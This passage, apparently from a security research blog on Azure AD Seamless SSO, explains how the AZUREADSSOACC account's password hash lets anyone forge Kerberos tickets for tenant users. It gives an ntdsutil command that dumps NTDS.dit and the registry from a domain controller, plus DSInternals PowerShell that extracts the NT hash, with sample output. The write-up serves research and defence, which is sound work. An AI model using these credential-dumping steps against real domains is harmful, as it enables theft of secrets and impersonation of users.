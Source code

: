Same way than in Identity Federation token signing certificates, if the password is known, you can create Kerberos tickets for any user of the tenant.

## Dumping the AZUREADSSOACC password

Because the Kerberos ticket is encrypted using the NTHash, we only need to know that hash! There are <a href="https://adsecurity.org/?p=2398" target="_blank">many ways for dumping the AD passwords</a>, but I'm using the following method:

* Dump the AD database using <a href="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753343(v=ws.11)" target="_blank">Ntdsutil</a>
* Extract the password hash using <a href="https://www.dsinternals.com/en/dumping-ntds-dit-files-using-powershell/" target="_blank">DSInternals</a>

To dump NTDS.dit and registry, use the following command in any DC:
```
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
```
Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.
{{< highlight powershell >}}
# Install DSInternals (if not done yet)
Install-Module DSInternals

# Import DSInternals
Import-Module DSInternals

# Get the Boot key
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'

# Get the password hash of AZUREADSSOACC
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex
{{< /highlight>}}
```
           Path:  
           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F
00000000   97 B7 45 CB ED 7B 9D D6 FE 6C 99 20 24 BC 38 F4   ·EËí{ Öþl  $¼8ô
```
From the output we can find the password hash of the AZUREADSSOACC: 97B745CBED7B9DD6FE6C992024BC38F4

## Creating Kerberos tickets for synced users

Same way than in Identity Federation, where ImmutableId is used as an identifier, DesktopSSO uses on-prem AD Security Identifier (SID) as an identifier. So, to create valid Kerberos tickets, the SID of the user must be known.
